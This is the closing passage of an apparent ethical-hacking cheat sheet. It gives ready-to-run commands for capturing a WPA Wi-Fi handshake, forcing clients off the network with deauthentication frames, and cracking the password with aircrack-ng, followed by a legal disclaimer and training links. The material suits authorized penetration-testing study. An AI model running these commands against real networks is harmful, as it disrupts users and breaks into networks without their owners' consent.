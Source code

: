 ### WPA handshake capture & crack (quick)
```bash
# capture
airodump-ng -c 6 --bssid <AP_BSSID> -w capture wlan0mon

# deauth to speed handshake
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT> wlan0mon

# crack
aircrack-ng capture-01.cap -w wordlist.txt -b <AP_BSSID>
```

---

## ⚖️ Legal Disclaimer

**IMPORTANT:** This guide is for educational purposes and authorized penetration testing only. Always ensure you have explicit written permission before testing any systems. Unauthorized access to computer systems is illegal and unethical. The authors are not responsible for any misuse of this information.

## 📚 Additional Resources

- [CEH Official Courseware](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

**Happy Ethical Hacking! 🎯**
